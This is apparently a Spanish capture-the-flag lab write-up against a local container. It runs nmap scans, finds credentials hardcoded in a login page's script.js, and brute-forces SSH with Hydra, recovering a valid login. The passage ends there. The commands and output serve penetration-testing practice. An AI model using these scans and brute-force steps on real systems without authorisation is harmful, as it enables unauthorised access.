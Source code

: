 ```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80,3306 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 16:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:f6:3a:98:23:dc:8b:00:f0:5c:d5:50:07:f9:ec:e7 (ECDSA)
|_  256 b0:4e:cb:2a:e0:ac:cf:4c:14:7b:23:57:00:6d:12:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberGuard - Seguridad Digital
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

En el puerto `80` encontramos una página web aparentemente normal con un panel de `login`, pero al inspeccionar el código fuente hallamos un archivo `script.js` que podría darnos información interesante.

Al final del script aparece una lista de usuarios válidos con sus contraseñas, lo que nos permite acceder al dashboard a través del `login` de la página.

```
const usuariosPermitidos = {
    'admin': 'CyberSecure123',
    'cliente': 'Password123',
    'chloe' : 'chloe123'
};
```

Sin embargo, una vez dentro no vemos ninguna vía de explotación clara.

Guardamos los usuarios en un archivo `users.txt` y las contraseñas en `pass.txt` para hacer fuerza bruta a `SSH` con `Hydra`.

# HYDRA

```bash 
hydra -L users.txt -P pass.txt ssh://172.17.0.2 -t 64
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-09 16:16:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: chloe   password: chloe123
```